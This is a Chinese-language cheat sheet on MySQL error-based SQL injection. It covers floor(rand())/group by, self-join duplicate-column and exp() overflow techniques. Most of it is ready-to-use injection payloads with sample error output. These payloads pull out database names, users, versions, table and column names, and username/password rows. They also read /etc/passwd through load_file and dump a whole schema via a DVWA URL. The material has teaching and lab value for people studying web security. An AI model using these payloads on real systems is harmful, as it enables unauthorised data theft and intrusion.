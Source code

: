 # sql inject 回显报错

## concat(*) + rand + group by

```
SELECT+1+FROM+(select+count(*),concat(floor(rand(0)*2),(select+concat(0x5f,database(),0x5f,user(),0x5f,version())))a+from+information_schema.tables+group+by+a)b--
```

#### 分析

本质是group by语句的报错。group by语句报错的原因是floor(rand(0)*2)的不确定性，即可能为0也可能为1,(group by key的原理是循环读取数据的每一行，将结果保存于临时表中。读取每一行的key时，如果key存在于临时表中，则不在临时表中则更新临时表中的数据；如果该key不存在于临时表中，则在临时表中插入key所在行的数据。group by floor(random(0)*2)出错的原因是key是个随机数，检测临时表中key是否存在时计算了一下floor(random(0)*2)可能为0，如果此时临时表只有key为1的行不存在key为0的行，那么数据库要将该条记录插入临时表，由于是随机数，插时又要计算一下随机值，此时floor(random(0)*2)结果可能为1，就会导致插入时冲突而报错。即检测时和插入时两次计算了随机数的值

* 主要是rand和group+by的冲突。获取的值不确定又可重复,同时又要来操作结果

> RAND() in a WHERE clause is re-evaluated every time the WHERE is executed.You cannot use a column with RAND() values in an ORDER BY clause, because ORDER BY would evaluate the column multiple times.             
说的是不可以作为ORDER BY的条件字段, 同理也不可以为group by的.

故：a为：concat(floor(rand(0)*2),(select+concat(0x5f,database(),0x5f,user(),0x5f,version())))

有rand参与，后面又出现group+by+a语句，故会爆出
```
Duplicate entry 'XXXXXXXXXX' for key 'group_key'
```
之类的错误。而这里的“'XXXXXXXXXX”就是 **0x5f,database(),0x5f,user(),0x5f,version()**的内容，这样子就可以获取到数据库名，用户名和数据库版本。

* 1.floor是取整数，如果没有这个，那么RAND(0)*2将是一个很长的小数，不会是 会重复的数。

* 2.rand(0)*2是取0到2的随机数，如果去掉或换成1，加上floor取整结果都是0，不会是不确定的数。当然,使用 *3，*4, ... 都是可以的

* 3.如果没有重新刷一次结果（例子中用的是count(*)来统计结果）,单纯以rand制造会重复的不确定数也是没有效果的，如去掉count(*),不会报错。

正常的：
```
SELECT id FROM tuser WHERE id=1 UNION SELECT 1 FROM (SELECT CONCAT(FLOOR(RAND(0)*2),(SELECT CONCAT(0x5f,DATABASE(),0x5f,USER(),0x5f,VERSION())))a FROM information_schema.tables GROUP BY a)b--
```

所以使用left(rand(),3)之类的也是可以的（会产生会重复不确定的数）如：

报错的：
```
SELECT id FROM tuser WHERE id=1 UNION SELECT 1 FROM (SELECT COUNT(*),CONCAT(LEFT(RAND(),3),(SELECT CONCAT(0x5f,DATABASE(),0x5f,USER(),0x5f,VERSION())))a FROM information_schema.tables GROUP BY a)b--
```


## join报错注入

#### 原理

**利用表自己join自己。来达到列名相同来爆列名**

以爆mysql.user表为例爆字段名为例

* 1.爆第一个列名

```
mysql> select * from(select * from mysql.user a join mysql.user b)c;
ERROR 1060 (42S21): Duplicate column name 'Host'
```

* 2.爆第二个列名(使用using)

```
mysql> select * from(select * from mysql.user a join mysql.user b using(Host))c; 
ERROR 1060 (42S21): Duplicate column name 'User'
```

* 3.爆第三列名(还是使用using，参数是前两个列的列名)

```
mysql> select * from(select * from mysql.user a join mysql.user b using(Host,User))c;
ERROR 1060 (42S21): Duplicate column name 'Password'
```

* ...

* 爆完列名后，使用完整的列名，就是用户数据了


## 数字溢出

#### 参考

- [乌云：使用exp进行SQL报错注入][1]
- [基于BIGINT溢出错误的SQL注入][2]

[1]: http://drops.wooyun.org/tips/8166
[2]: http://drops.wooyun.org/web/8024

#### exp --适用于MySQL5.5.5及以上版本

#### 演示

* select ~(select version());
```
mysql> select ~(select version());
+----------------------+
| ~(select version())  |
+----------------------+
| 18446744073709551610 |
+----------------------+
```

* select exp(~(select * from(select user())x));
```
mysql> select exp(~(select * from(select user())x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'
```

#### 注出数据

* 得到表名

```
select exp(~(select * from(select table_name from information_schema.tables where table_schema=database() limit 0,1)x));

注：
根据需要替换 **database()** 如: table_schema='mysql'
```

```
mysql> select exp(~(select*from(select table_name from information_schema.tables where table_schema='mysql' limit 0,1)x))
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'columns_priv' from dual)))'
```

* 得到列名

```
select exp(~(select*from(select column_name from information_schema.columns where table_name='users' limit 0,1)x));
```

* 检索数据

```
select exp(~ (select*from(select concat_ws(':',id, username, password) from users limit 0,1)x));
```

* dump数据

```
exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x))

http://localhost/dvwa/vulnerabilities/sqli/?id=1' or exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x))-- -&Submit=Submit#
```

* 读文件

```
select exp(~(select*from(select load_file('/etc/passwd'))a));
```

每次最多只能读 13 行

#### insert update delete 都可以

```
mysql> insert into users (id, username, password) values (2, '' | exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x)), 'Eyre');
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select '000
newdb::users::id
newdb::users::username
newdb::users::password' from dual)))'
```


